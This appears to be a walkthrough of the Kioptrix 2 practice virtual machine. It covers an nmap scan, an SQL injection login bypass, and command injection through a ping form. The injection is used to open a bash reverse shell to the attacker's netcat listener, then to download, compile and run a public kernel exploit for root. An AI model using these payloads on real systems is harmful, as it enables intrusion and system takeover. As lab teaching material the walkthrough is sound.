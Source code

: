 # Kioptrix 2- Walkthrough

First We check what's our ip with simple shell command:
```
ifconfig
```
![alt text](/screens/ifconfig2.png)

Then we need to check the hosts running on our IP address with another shell command:
```
netdiscover
```
![alt text](/screens/netdiscover2.png)

**PCS Systemtechnik GmbH** is Virtual Box Vendor so it must be our VM.

Let's scan it with **nmap**!

		* -sS stands for TCP SYN scan 
		* -A  DetectS OS and Services
    
    
 ```
 nmap -sS -A <ip address>
 ```
 
 ![alt text](/screens/nmap2.png)
 
 Port 631 caught my eye immediatly and CUPS 1.1 had some known vulnerabilities but noone of the exploits worked.
 Lets search further.
 
 Port 80, which is standard http port is open.
 When accessed it gives us a login panel.
 
  ![alt text](/screens/login1.png)

### SQL Injection

I tried some default credentials but they didnt work.
Lets try to bypass it with SQL Injection.

We can guess that the query looks something like

```
SELECT * FROM users WHERE username = <our input> AND password = <out input>
```	

If we pass ' or '1'='1'-- query will look now like this:

```
SELECT * FROM users WHERE username = '' or '1'='1'--  AND password = <out input>
```
	
"-- " (with space in the end) is MYSQL comment sign. Passing it in the end means that the end of the query will be commented out, so the query really looks like:

```
SELECT * FROM users WHERE username = '' or '1'='1'--
```

OR statement means that only one of the arguments needs to be True and as '1'='1' is always True - We bypassed the login form.
  
  ![alt text](/screens/login2.png)
  
After login we get redirected to a Panel which lets us Ping the machines over internet.

  ![alt text](/screens/panel.png)
  
  Lets add another command with ; (semicolon) and see if it works.
  
  ![alt text](/screens/commandinjection.png)
  
Yes! It gives us back the output from both commands so the panel is vulnerable to Command Injection.
As output shows we're logged in as apache, so now we need to use privilege escalation in order to get the root.

### Privilege Escalation

Linux command uname -a (Unix name) prints back info about the name and version of operating system running on machine.

  ![alt text](/screens/panel2.png)

  ![alt text](/screens/uname.png)
  
  So we see that the system running is **GNU/Linux version 2.6.9**
  Quick research shows that this kernel is vulerable!
	https://www.exploit-db.com/exploits/9542
	
Exploit is **local** so we need to get it into victim machine.

On our machine we need to set up a netcat listener

```
netcat -v -l -p 4444

-v (verbose)
-l (listen)
-p(port)
4444-port to listen on
```
On the victim machine we gonna inject a one line reverse shell with our IP and port that we specified in netcat listener.

```
www.google.com;bash -i >& /dev/tcp/192.168.8.104/4444 0>&1
```
Once we click submit our netcat listener should revice a connection.

  ![alt text](/screens/netcat_listener.png)
 Great, we have a reverse shell on victim machine.
 
 ## Using the exploit
 
We need to download the exploit to our machine and serve as a host to download it from victim machine.
Python's SimpleHTTPServer will do the job just fine.

Move to the directory where the exploit is and start SimpleHTTPServer with command:

```
python -m SimpleHTTPServer
```

Once started, we can access the files from the victim machine.
Lets do it using **wget** 

```
http://192.168.8.104:8000/9542.c
```

Woops! **An Error gonna come up**
  ![alt text](/screens/wgeterror.png)

Its because we dont have the required permission as the **apache** user.
But we do have an access to **/tmp/** location, lets insert it there then!

  ![alt text](/screens/wgetsuccess.png)
  
 Works perfectly!
Its a .c file so we need to compile it now using **gcc**.
Type: ```gcc 9542.c -o exploit```
And use the compiled exploit with ```./exploit```

  ![alt text](/screens/root2.png)
  
  **Root obtained!** 
